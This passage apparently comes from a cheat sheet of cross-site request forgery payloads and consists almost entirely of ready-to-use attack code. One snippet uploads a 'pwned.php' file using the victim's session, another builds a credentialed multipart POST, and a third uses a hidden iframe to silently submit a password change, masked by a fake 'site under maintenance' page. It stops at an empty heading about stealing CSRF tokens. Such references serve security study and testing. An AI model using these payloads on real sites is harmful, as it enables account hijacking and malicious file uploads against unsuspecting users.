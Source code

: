                 myFormData = new FormData();
                var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text"});
                myFormData.append("newAttachment", blob, "pwned.php");
                fetch("http://example/some/path", {
                    method: "post",
                    body: myFormData,
                    credentials: "include",
                    headers: {"Content-Type": "application/x-www-form-urlencoded"},
                    mode: "no-cors"
                });


# multipart/form-data POST request v2

                var fileSize = fileData.length,
                boundary = "OWNEDBYOFFSEC",
                xhr = new XMLHttpRequest();
                xhr.withCredentials = true;
                xhr.open("POST", url, true);
                //  MIME POST request.
                xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
                xhr.setRequestHeader("Content-Length", fileSize);
                var body = "--" + boundary + "\r\n";
                body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
                body += "Content-Type: " + ctype + "\r\n\r\n";
                body += fileData + "\r\n";
                body += "--" + boundary + "--";

                //xhr.send(body);
                xhr.sendAsBinary(body);

# Form POST request from within an iframe

                <--! expl.html -->

                <body onload="envia()">
                <form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
                <input type="text" id="pwd" name="pwd" value="otra nueva">
                </form>
                <body>
                <script>
                function envia(){document.getElementById("formulario").submit();}
                </script>

                <!-- public.html -->
                <iframe src="2-1.html" style="position:absolute;top:-5000">
                </iframe>
                <h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>

# Steal CSRF Token and send a POST request
